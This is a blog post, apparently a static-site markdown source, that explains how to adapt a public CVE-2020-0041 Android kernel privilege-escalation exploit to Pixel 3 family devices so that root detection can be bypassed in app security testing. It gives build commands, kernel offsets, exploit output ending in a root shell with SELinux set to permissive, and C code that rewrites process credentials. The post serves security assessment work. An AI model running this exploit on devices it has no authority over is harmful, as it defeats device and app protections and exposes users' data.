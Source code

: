 +++ 
title = "Bypassing root detection on Pixel 3 devices" 
date = "2022-02-27" 
author = "Joan Calabrés"  
description = "Adapting the CVE-2020-0041 privilege escalation exploit for Pixel 3 family devices in order to bypass root detection." 
+++

There are different root frameworks that can be used on Android in order to obtain root privileges. Usually, during Android application security evaluations, root detection is tested in different ways. Application countermeasures such as root detection are easy to bypass in most of the Android applications and sometimes without the use of reverse engineering techniques; however, as I've been seen during the analysis of banking applications, bypassing root detection on these applications can be hard and time consuming due high obfuscation and countermeasures applied.

A common procedure in the industry is the adaptation of privilege escalation exploits that are not detectable by most of the applications. In this post I will explain how to adapt [bluefrostsecurity](https://labs.bluefrostsecurity.de/blog/2020/04/08/cve-2020-0041-part-2-escalating-to-root/) **CVE-2020-0041** PoC for Pixel 3 to all the Pixel3 family devices. Furthermore, I will provide some improvements to obtain a non-limited root shell. 

## Table of Contents
- [Table of Contents](#table-of-contents)
- [Requirements](#requirements)
- [Procedure](#procedure)
- [Testing the exploit](#testing-the-exploit)
- [Improvements](#improvements)

## Requirements

* Download the **CVE-2020-0041** PoC exploit that we will be using for the modifications:

```bash
git clone https://github.com/bluefrostsecurity/CVE-2020-0041
```

* In order to adapt the exploit for any Pixel 3 device, the specific Pixel 3 vulnerable firmware **(QQ1A.200205.002)** needs to be downloaded from [official website](https://developers.google.com/android/images). A list of the specific devices links can be found below:

    * [Pixel 3 XL](https://dl.google.com/dl/android/aosp/crosshatch-qq1a.200205.002-factory-3e5c17fd.zip)

    * [Pixel 3a XL](https://dl.google.com/dl/android/aosp/bonito-qq1a.200205.002-factory-238bc80e.zip)

    * [Pixel 3a](https://dl.google.com/dl/android/aosp/sargo-qq1a.200205.002-factory-36d5179f.zip)

* Download [abootimg](https://github.com/ggrandou/abootimg) and compile it:

```bash
git clone https://github.com/ggrandou/abootimg
cd abootimg
make
```

* Download and install [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf) tool using python pip:

```bash
sudo apt install python3-pip
sudo pip3 install --upgrade lz4 git+https://github.com/marin-m/vmlinux-to-elf
```

* In addition, we will need the **Android NDK** in our path in order to compile the exploit. As an example, I have this line on my .zshrc file.

```bash
export NDK="/home/calabres/NDK"
```

## Procedure

1. First of all we need to extract the compressed kernel image from the boot.img. For that, we will use the already downloaded tool **abootimg**.

```bash
./abootimg -x [path_to_boot_img]
```

The produced zImage, is an image that contains the compressed Android Kernel.

2. In order to obtain an uncompressed image of the Kernel that contains correct symbols and offsets, use the [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf) tool.

```bash
vmlinux-to-elf [path_to_zImage] kernel.elf
```

3. Use the disassembler of your preference to find the labels related with the exploit offsets found in exploit.c. The labels to find inside the kernel are the following:

```c
SELINUX_ENFORCING_OFFSET 
MEMSTART_ADDR_OFFSET 
SYSCTL_TABLE_ROOT_OFFSET
PROC_DOUINTVEC_OFFSET
INIT_TASK_OFFSET
INIT_CRED_OFFSET
OFFSET_PIPE_FOP
```

4. Change exploit.c offsets for the offsets found in your device kernel image, in my case Pixel 3a offsets are:

```c
#define SELINUX_ENFORCING_OFFSET 0x2ffe000
#define MEMSTART_ADDR_OFFSET 0x23a6390
#define SYSCTL_TABLE_ROOT_OFFSET 0x2dda178
#define PROC_DOUINTVEC_OFFSET 0x19e8758
#define INIT_TASK_OFFSET 0x2da1e00L
#define INIT_CRED_OFFSET 0x2db0238
#define OFFSET_PIPE_FOP 0x2173650
```

## Testing the exploit 

>The exploit can be built by simply running "make" with the Android NDK in the path. It can also be pushed to a phone attached with adb by doing "make all push". Now just run /data/local/tmp/poc from an adb shell to see the exploit running:

{{< code language="bash" title="Exploit execution output" id="1" expand="Show" collapse="Hide" isCollapsed="true" >}}
[+] Mapped 200000
[+] selinux_enforcing before exploit: 1
[+] pipe file: 0xffffffd9c67c7700
[*] file epitem at ffffffda545d7d00
[*] Reallocating content of 'write8_inode' with controlled data.[DONE]
[+] Overwriting 0xffffffd9c67c7720 with 0xffffffda545d7d50...[DONE]
[*] Write done, should have arbitrary read now.
[+] file operations: ffffff97df1af650
[+] kernel base: ffffff97dd280000
[*] Reallocating content of 'write8_selinux' with controlled data.[DONE]
[+] Overwriting 0xffffff97dfe24000 with 0x0...[DONE]
[*] init_cred: ffffff97dfc300a0
[+] memstart_addr: 0xffffffe700000000
[+] First level entry: ceac5003 -> next table at ffffffd9ceac5000
[+] Second level entry: f173c003 -> next table at ffffffd9f173c000
[+] sysctl_table_root = ffffff97dfc5a3f8
[*] Reallocating content of 'write8_sysctl' with controlled data.[DONE]
[+] Overwriting 0xffffffda6da8d868 with 0xffffffda49ced000...[DONE]
[+] Injected sysctl node!
[*] Node write8_inode, pid 7058, kaddr ffffffda0723f900
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Node write8_selinux, pid 6848, kaddr ffffffd9c9fa2400
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Node write8_sysctl, pid 7110, kaddr ffffffda67e7d180
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[+] Cleaned up sendmsg threads
[*] epitem.next = ffffffd9c67c7720
[*] epitem.prev = ffffffd9c67c77d8
^[[*] Launching privileged shell
root_by_cve-2020-0041:/ # id   
uid=0(root) gid=0(root) groups=0(root) context=u:r:kernel:s0
root_by_cve-2020-0041:/ # getenforce
Permissive
root_by_cve-2020-0041:/ # 
{{< /code >}}

## Improvements

## Issues and improvements

After the adaptation of the exploit and its execution, you will obtain a root shell; however, this root shell is very limited and you will have some problems executing binaries and creating files. 

Finding on the Internet I found the issue: *you need to patch the security context of the root user.*

During the exploit execution the process executed need to be patched with the correct security context for the root user. The next function is used to patch the credentials of a specific address:


{{< code language="bash" title="Patching task credentials" id="1" expand="Show" collapse="Hide" isCollapsed="true" >}}
```c
void patch_task_cred(uint64_t cred_addr, uint32_t init_sid)
{
    uint64_t val;
    struct cred *cred = (void *)cred_addr;
    struct task_security_struct *sec;

    if (cred == NULL)
        return;

    val = 0;
    write32((uint64_t)&cred->uid, val);
    write32((uint64_t)&cred->gid, val);
    write32((uint64_t)&cred->suid, val);
    write32((uint64_t)&cred->sgid, val);
    write32((uint64_t)&cred->euid, val);
    write32((uint64_t)&cred->egid, val);
    write32((uint64_t)&cred->fsuid, val);
    write32((uint64_t)&cred->fsgid, val);
    write32((uint64_t)&cred->securebits, val);

    val = ~(0UL);
    write64((uint64_t)&cred->cap_inheritable, val);
    write64((uint64_t)&cred->cap_permitted, val);
    write64((uint64_t)&cred->cap_effective, val);
    write64((uint64_t)&cred->cap_bset, val);
    //write64((uint64_t)&cred->cap_ambient, val);

    sec = (void *)read64((uint64_t)&cred->security);

    if (sec != NULL) {
        write32((uint64_t)&sec->osid, init_sid);
        write32((uint64_t)&sec->sid, init_sid);
    }
}
```
{{< /code >}}
